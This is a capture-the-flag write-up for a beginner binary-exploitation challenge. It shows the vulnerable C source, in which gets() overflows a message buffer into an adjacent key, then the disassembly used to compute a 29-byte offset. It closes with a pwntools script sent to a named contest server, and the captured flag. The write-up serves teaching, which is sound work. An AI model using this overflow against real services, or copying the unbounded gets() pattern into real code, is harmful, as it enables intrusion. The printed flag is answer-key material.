

# Cosmic Tongue
### Description: Waiter, waiter! cast a meteor on this person NOW!

We are given a chall.zip file, inside is a ```release``` folder containing chall (binary), and chall.c (source).

chall.c:
```
 #include <stdio.h>
#include <string.h>

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char key[11] = "srynottday";
    char message[20];

    printf("Interstellar bounty hunters have scorched all but this land. And they are marching from the horizon.\n");
    printf("Countless warlocks have fought, yet none prevails against Captain Necron.\n");
    printf("All hope now rests upon thy lips, for thou art the Supernova Sorcerer, whose words alone can tear open the very fabric of this reality!\n");
    printf("Cast thy incantation, mighty one: ");
    fflush(stdout);

    gets(message);
    if (strcmp(message, "opensesame") == 0)
    {
        printf("With a thunderous groan, a secret passage of ancient make hath conjured before thou!\n");
        printf("A portal of golden light opens, beckoning the citizens to flee Captain Necron and his void-born scourges.\n");
        printf("Inside, thou hath found a parchment from the legendary King Midas:\n");
        printf("\"The golden treasure you're looking for is deep inside this land's mantle. Unearth it, and you shall receive victory.\"\n");
    }
    else if (strcmp(key, "opensesame") == 0)
    {
        printf("By your word, the very bedrock doth tremble! Thou hast ripped a fissure in this plane of existence!\n");
        printf("The land opens its mouth and swallows each and every hunters but one.\n");
        printf("For Captain Necron, a special fate: the earth itself doth erupt in a geyser of molten power, a tomb prepared for his very soul.\n");
        printf("The infernal geyser spits out remnants of him, with mystic inscriptions written upon its charred bones:\n");
        FILE *file = fopen("flag.txt", "r");
        if (file == NULL)
        {
            printf("Error opening flag.txt\n");
            return;
        }
        char flag[100];
        fgets(flag, sizeof(flag), file);
        printf("%s\n", flag);
        fclose(file);
    }
    else
    {
        printf("Thy mouth of wisdom hath spoken words of cosmic import: %s\n", message);
        printf("Verily, a phrase of such sorcery hath never been uttered!\n");
        printf("Dreaded Captain Necron flees from the scene.. biding his time until thy final hour to return and lay waste to this land!\n");
    }

    return 0;
}
```

Now we can run objdump -d chall to get some dissasemblies:
```
objdump -d chall
```

If we carefully read the source code, we can see:
```
char key[11] = "srynottday";  // 11 bytes at higher memory address
char message[20];             // 20 bytes at lower memory address

gets(message); 
```

The challenge's vulnerability is the use of gets(), which reads input without bounds checking. This allows writing past the 20-byte message buffer.

Looking at the disassembly around 0x1294-0x12a8:
```
1294:	48 b8 73 72 79 6e 6f 	movabs $0x6474746f6e797273,%rax  ; "srynottd"
129b:	74 74 64 
129e:	48 89 45 ed          	mov    %rax,-0x13(%rbp)          ; key at rbp-0x13
12a2:	66 c7 45 f5 61 79    	movw   $0x7961,-0xb(%rbp)        ; "ay" at rbp-0xb  
12a8:	c6 45 f7 00          	movb   $0x0,-0x9(%rbp)           ; null terminator
```

And the gets() call at 0x12fc-0x1308:
```
12fc:	48 8d 45 d0          	lea    -0x30(%rbp),%rax          ; message at rbp-0x30
1300:	48 89 c7             	mov    %rax,%rdi
1303:	b8 00 00 00 00       	mov    $0x0,%eax
1308:	e8 13 fe ff ff       	call   1120 <gets@plt>
```

message: starts at rbp-0x30 (48 bytes from rbp),
key: starts at rbp-0x13 (19 bytes from rbp),
Distance: `0x30 - 0x13 = 0x1D = 29 bytes.

The program has two string comparisons:

```strcmp(message, "opensesame")``` - Opens a "secret passage" but no flag
```strcmp(key, "opensesame")``` - Opens the flag file and prints it

Initially, key contains "srynottday", so the second comparison fails. But with buffer overflow, we can overwrite key.

Based on the gathered information and observations so far, we can now draft a solver, included within the address for the server the chall is hosted on, so we can just grab a flag and submit:

```
#!/usr/bin/env python3
from pwn import *

HOST = "intersec.hcs-team.com"
PORT = 10379

payload = b"A"*29 + b"opensesame\n"

io = remote(HOST, PORT)
# read initial banner if any
print(io.recvuntil(b"Cast thy incantation, mighty one: ", timeout=2).decode(errors='ignore'))
io.send(payload)
# receive rest (flag)
resp = io.recvall(timeout=2)  # or use recvuntil if you know trailing text
print(resp.decode(errors='ignore'))
io.close()
```

Running the solver gives us the flag:



Flag: ```HCS{y0ur_w15hhh_15_my_c0mm4nd_51r3_18e4dfe5-7b65-42f7-89a0-10c066b0b448}```

